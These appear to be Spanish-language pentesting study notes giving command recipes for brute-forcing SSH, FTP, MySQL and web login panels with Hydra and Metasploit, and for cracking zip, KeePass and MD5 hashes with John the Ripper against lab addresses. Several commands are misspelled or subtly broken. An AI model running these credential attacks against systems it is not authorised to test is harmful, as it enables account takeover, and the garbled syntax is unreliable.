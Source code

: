 Hydra es una herramienta para hacer ataques de fuerza bruta

Es necesario conocer o la contraseña o el usuario.
## Hydra conociendo el usuario

```sh title:"hydra para localizar contraseñas"
 hydra -l <usuarioconocido> -P {rutal al diccionario}://{protocolo}{IP}
 
# -P mayusucla si queremos buscar la password
# -p {password} si conocemos la password
# -l {usuario conocido} si conocemos el usuario
# -L mayuscula si queremos buscar el Usuario

# rockyou path: (diccionario para passroeds)
# /usr/share/wordlists/rockyou.txt

# protocolo
ssh
ftp

# ejemplos
hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://192.168.0.27
hydra -l juan -P /usr/share/wordlists/rockyou.txt ftp://192.168.0.27

```


## hydra conociendo la password
Cuando tenemos una contraseña pero desconocemos el usuario podemos usar Hydra para fuerza bruta:
```sh title:"hydra para localizar Usuarios"
 hydra -L {rutal al diccionario} -p <passwordUsuario>://{protocolo}{IP}
 
# -P mayusucla si queremos buscar la password
# -p {password} si conocemos la password
# -l {usuario conocido} si conocemos el usuario
# -L mayuscula si queremos buscar el Usuario

# unix_users path: (diccionario para Usuarios)
# /usr/share/wordlists/metasploit/unix_users.txt

# protocolo
ssh
ftp

# ejemplos
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ssh://192.168.0.27
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ftp://192.168.0.27

```


## hydra a panel login
Uso de Hidra en Paneles Login
Probar con el usuario admin

con Burtsuit podemos conocemos la ruta exacta del panel login
la forma de tramitar los datos y el typo de peticion

```sh title:"hydra para panelos login"
 hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt http-post-from "{paht del panel login}:username=admin:passwore=^PASS^: {mensaje de error de panel login en caso de fallo}"
# t 64 poner 64 hilos
# -P mayusucla si queremos buscar la password
# -p {password} si conocemos la password
# -l {usuario conocido} si conocemos el usuario
# -L mayuscula si queremos buscar el Usuario

# unix_users path: (diccionario para Usuarios)
# /usr/share/wordlists/metasploit/unix_users.txt

# protocolo
ssh
ftp

# ejemplos
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ssh://192.168.0.27
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -p alexis ftp://192.168.0.27

```


# Fuerza bruta con Metasploit
con Metasploit tamiben se puede hacer  fuerza bruta igual que con Hydra
Indicar que esto es más lento que Hydra

```sh title:"metaesploit para fuerza bruta pfr ssh"
msf6 > serch ssh_login
msf6 > use 0
msf6 auxiliary(scanner/ssh/ssh_login) > show options
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME juan
msf6 auxiliary(scanner/ssh/ssh_login) > show options
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS?FILE /user/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOST {IP maquina victima}
msf6 auxiliary(scanner/ssh/ssh_login) > show options
msf6 auxiliary(scanner/ssh/ssh_login) > set VERBOSE false

msf6 auxiliary(scanner/ssh/ssh_login) > run
```



Tambien lo podemos hacer con el protocolo FTP

```sh title:"metaesploit para fuerza bruta por ftp"
msf6 > serch ftp_login
msf6 > use 0
msf6 auxiliary(scanner/ftp/ftp_login) > show options
msf6 auxiliary(scanner/ftp/ftp_login) > set USERNAME juan
msf6 auxiliary(scanner/ftp/ftp_login) > show options
msf6 auxiliary(scanner/ftp/ftp_login) > set PASS?FILE /user/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/ftp/ftp_login) > set RHOST {IP maquina victima}
msf6 auxiliary(scanner/ftp/ftp_login) > show options
msf6 auxiliary(scanner/ftp/ftp_login) > set VERBOSE false

msf6 auxiliary(scanner/ftp/ftp_login) > run
```


# Fuerza bruta a Base de datos
Puerto de Mysql: 3306

si tenemos un potencial Usuario:
```sh title:"hydra para atacar a BD Mysql"
 hydra -t 64 -l {usuarioconocido}} -P /usr/share/wordlists/rockyou.txt mysql://{ipmaquina target}
# t 64 poner 64 hilos
# -P mayusucla si queremos buscar la password
# -p {password} si conocemos la password
# -l {usuario conocido} si conocemos el usuario
# -L mayuscula si queremos buscar el Usuario

# unix_users path: (diccionario para Usuarios)
# /usr/share/wordlists/metasploit/unix_users.txt

# protocolo
mysql

# ejemplos


```



# Jhon the Ripper
Jhon the ripper mos permite hacer cracking de archivos en local, para zip, keepas o cracking the hases basicamente sirve para hacer craking de ficheros en local


## crackear un fichero protegido
Crackear la contraseña de un fichero zip.
```sh title:"Jhon the ripper para crackear un zip, en 2 pasos, primero hash y despues creckear el has"
 zip2jhon {nombreArchivo} > hash

john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

## crackar un keepass DB
Crackear la contraseña de un keepass (kdbx)
```sh title:"Jhon the ripper para crackear un la BD de un keepass, en 2 pasos, primero hash y despues creckear el hash"
keepass2jhon {nombrefichero.kdx} >hash

john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

## Crackear hash
Crackear un hash

```sh title:"Jhon the ripper para crackear un hash"
john --wordlist=/usr/share/wordlists/rockyou.txt hash
jhon --format =Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash

# el format te lo da el propio jhon y el formato lo sacamos del hashIdentifier
# md5
# sha1
# ...
[[HashIdentifier]]
```

